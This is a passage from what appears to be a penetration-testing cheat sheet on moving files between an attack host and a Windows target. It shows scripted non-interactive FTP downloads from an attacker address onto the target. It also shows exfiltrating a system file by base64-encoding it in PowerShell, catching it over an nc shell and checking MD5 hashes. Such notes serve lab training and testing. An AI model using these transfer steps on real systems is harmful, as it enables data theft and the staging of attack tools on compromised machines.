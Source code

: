 ```cmd.exe
echo GET file.txt >> ftpcommand.txt
```

```cmd.exe
echo bye >> ftpcommand.txt
```
Sets commands we can use on FTP. This is if a non-interactive session is in use.

#### Log into the FTP Session in non-interactive Windows Shell
```cmd.exe
ftp -v -n -s:ftpcommand.txt
```

```cmd.exe
open 192.168.49.128
```
Log in with `USER` and `PASS` first.

```ftp
USER anonymous
```

```ftp
GET file.txt
```

```cmd.exe
bye
```


### Windows Target to Attack Host

#### Encode file using PowerShell. Catch w/ nc shell on attack host.
```PowerShell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```

#### Check MD5 Hash of encoded file - Ensure this matches with what is downloaded onto attack host
```PowerShell
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```

#### Decode the base64 string in Linux
```Shell
echo <base64 encoding from PowerShell output> | base64 -d > hosts
```

#### Check MD5 Hash to ensure it matches what was on the Windows target
```Shell
md5sum hosts
```

